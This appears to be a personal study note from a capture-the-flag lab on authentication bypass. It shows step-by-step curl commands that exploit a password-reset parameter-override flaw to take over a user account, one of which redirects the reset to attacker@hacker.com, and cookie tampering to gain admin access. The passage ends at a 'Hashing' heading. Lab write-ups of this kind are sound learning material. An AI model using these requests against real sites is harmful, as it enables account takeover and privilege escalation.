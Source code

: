 ```shell
curl 'http://10.10.206.157/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable **REQUEST**, which contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

```shell
curl 'http://10.10.206.157/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of `{username}@customer.acmeitsupport.thm`

Now rerunning Curl Request 2 but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.
```shell
curl 'http://10.10.206.157/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

So i must see some stuff on youtube and i see it very cool PWN to website by sending the reset ticket to my account so cool stuff, it will attract not only me but also u, very strange and interesting stuff and i will do this stuff on LAB in hacking repo with realweb<br>
![[Pasted image 20240219140726 1.png]]

![[Pasted image 20240219140738 1.png]]

## Cookie Tampering
Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

### Plaintext
The contents of some cookies can be in plain text, and it is obvious what they do. Take, for example, if these were the cookie set after a successful login:

    Set-Cookie: logged_in=true; Max-Age=3600; Path=/
    Set-Cookie: admin=false; Max-Age=3600; Path=/

We see one cookie (logged_in), which appears to control whether the user is currently logged in or not, and another (admin), which controls whether the visitor has admin privileges. Using this logic, if we were to change the contents of the cookies and make a request we'll be able to change our privileges.

*Do this stuff like access the cookies by Curl to directly with web request and received the flag or something needing. Do this stuff by step*
```shell
# We can see we are returned a message of: Not Logged In
curl http://10.10.206.157/cookie-test 
# We can see : Logged In As A User
curl -H "Cookie: logged_in=true; admin=false" http://10.10.206.157/cookie-test
# We can see : Logged In As An Admin
curl -H "Cookie: logged_in=true; admin=true" http://10.10.206.157/cookie-test 
```
### Hashing